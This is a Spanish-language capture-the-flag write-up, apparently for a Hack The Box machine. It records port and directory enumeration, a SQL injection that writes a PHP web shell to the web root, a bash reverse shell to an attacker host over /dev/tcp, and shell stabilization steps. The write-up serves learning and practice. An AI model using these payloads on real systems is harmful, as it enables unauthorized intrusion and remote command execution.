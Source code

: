 - ### Enumeración
	- **Escaneo de puertos:
	``` bash 
			nmap -Pn  10.10.11.116 -sC -sV -oG "puertos"
			Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-17 17:47 EDT
			Nmap scan report for 10.10.11.116
			Host is up (0.27s latency).
			Not shown: 992 closed tcp ports (reset)
			PORT     STATE    SERVICE       VERSION
			22/tcp   open     ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
			| ssh-hostkey: 
			|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
			|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
			|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
			80/tcp   open     http          Apache httpd 2.4.48 ((Debian))
			|_http-server-header: Apache/2.4.48 (Debian)
			|_http-title: Site doesn `t have a title (text/html; charset=UTF-8).
			5000/tcp filtered upnp
			5001/tcp filtered commplex-link
			5002/tcp filtered rfe
			5003/tcp filtered filemaker
			5004/tcp filtered avt-profile-1
			8080/tcp open     http          nginx
			|_http-title: 502 Bad Gateway
			Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
			
			Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
			Nmap done: 1 IP address (1 host up) scanned in 34.98 seconds
```
	- **Fuzzing Sobre la pagina web**
	```bash 
		gobuster dir -u http://10.10.11.116/ -w /usr/share/wordlists/dirbuster/directories.jbrofuzz -x php -t50
		===============================================================
		Gobuster v3.6
		by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
		===============================================================
		[+] Url:                     http://10.10.11.116/
		[+] Method:                  GET
		[+] Threads:                 50
		[+] Wordlist:                /usr/share/wordlists/dirbuster/directories.jbrofuzz
		[+] Negative Status codes:   404
		[+] User Agent:              gobuster/3.6
		[+] Extensions:              php
		[+] Timeout:                 10s
		===============================================================
		Starting gobuster in directory enumeration mode
		===============================================================
		[ERROR] parse "http://10.10.11.116/%": invalid URL escape "%"
		[ERROR] parse "http://10.10.11.116/%.php": invalid URL escape "%.p"
		/??.php               (Status: 200) [Size: 16088]
		/??                   (Status: 200) [Size: 16088]
		/.                    (Status: 200) [Size: 16088]
		/account.php          (Status: 200) [Size: 16]
		/config.php           (Status: 200) [Size: 0]
		/css                  (Status: 301) [Size: 310] [--> http://10.10.11.116/css/]
		/index.php            (Status: 200) [Size: 16088]
		/js                   (Status: 301) [Size: 309] [--> http://10.10.11.116/js/]
		Progress: 117376 / 117378 (100.00%)
		===============================================================
		Finished
		===============================================================
	```
	- **Chequeo de posible inyección SQL
		- ![[Pasted image 20250317214918.png]]
		- ![[Pasted image 20250317215002.png]]
		- ![[Pasted image 20250317215815.png]]
		- ![[Pasted image 20250317215842.png]]
- ### Explotacion

	- **Ejecucion de remota de codigo por inyeccion php**
		- creacion de un archivo pwned que permita ejecutar comando de bash atravez de php:
			```php
			 ' union select "<?php system($_REQUEST['cmd']); ?>" into outfile "/var/www/html/pwned.php"-- -
			```
	- peticion:
		![[Pasted image 20250318191453.png]]
	- respuesta:
		![[Pasted image 20250318191554.png]]
	- En la url escribo pwned.php y me lleva al archivo anteriormente creado con la inyeccion
		![[Pasted image 20250318192712.png]]
	- El cual puedo utilizar para ejecutar comandos en el equipo victima
		![[Pasted image 20250318192819.png]]
		![[Pasted image 20250318193034.png]]
	- **Explotación de vulnerabilidad con reverse shell:**
		- Pongo a escuchar con netcat en el puerto 443:
		```bash
		nc -nlvp 443
		```
		- Creacion de reverse shell  :
		```bash
		bash -c 'bash -i>&/dev/tcp/"ip del equipo atacante"/443 0>&1'
		```
		- Utilizando la utilidad de "Decoder " codificamos el reverse shell a URL:
		![[Pasted image 20250318194023.png]]
		- una vez colocado en la url tiene que quedar cargando la pagina
		![[Pasted image 20250318195438.png]]
		- A parte tendrian que aparecer un shell en la terminal donde estaba escuchando con netcat:
		- ![[Pasted image 20250318214206.png]]
		- Flag user.txt :
		 ![[Pasted image 20250318214414.png]]
	 - ### Post-Explotacion:
		 - **Tratamiento de la tti:**
			```bash 
			 - script /dev/null -c bash
			 - hacer ctrl+z para suspender la session
			 - stty raw -echo; fg
			 - reset xterm
			 - export TERM=xterm
			```
		- **encuentro de contraseña root:**
			![[Pasted image 20250318215453.png]]